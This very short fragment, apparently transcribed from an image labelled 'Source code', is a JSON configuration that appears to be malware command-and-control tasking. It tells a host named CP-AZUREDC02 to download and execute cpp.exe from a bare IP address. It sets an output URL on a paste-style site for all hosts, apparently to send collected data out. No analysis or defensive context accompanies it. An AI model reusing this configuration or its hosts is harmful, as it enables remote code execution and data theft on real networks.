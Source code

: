 {
"CP-AZUREDC02":{"downexec":"http://192.225.166.199/cpp.exe"},
"all":{"outurl":"http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="}
}
